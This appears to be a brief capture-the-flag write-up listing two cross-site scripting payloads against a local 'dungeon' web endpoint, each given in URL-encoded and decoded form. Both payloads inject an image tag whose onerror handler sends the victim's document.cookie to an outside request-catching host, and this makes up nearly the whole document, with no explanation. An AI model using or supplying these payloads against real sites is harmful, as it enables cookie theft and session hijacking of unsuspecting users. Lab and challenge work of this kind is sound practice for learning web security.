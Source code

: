 # Writeups

- http://localhost/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F$%7Bdocument.cookie%7D%60%22%3E
    * Url decoded: http://localhost:5000/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?${document.cookie}`">
- http://localhost/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F%60+document.cookie%22%3E
    * Url decoded: http://localhost:5000/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?`+document.cookie">
